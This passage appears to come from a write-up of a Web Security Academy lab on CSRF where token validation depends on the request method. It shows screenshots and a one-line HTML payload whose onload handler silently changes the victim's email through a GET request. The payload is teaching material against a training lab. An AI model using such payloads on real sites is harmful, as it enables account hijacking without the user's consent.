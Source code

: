 You get a redirection code, if you follow it the email is updated:



![img](images/6%20-%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/5.png)



![img](images/6%20-%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/6.png)


Payload:

```
<body onload="window.open('https://0af7002903ddc72c818c574600ce0059.web-security-academy.net/my-account/change-email?email=test3%40test.com')">
```


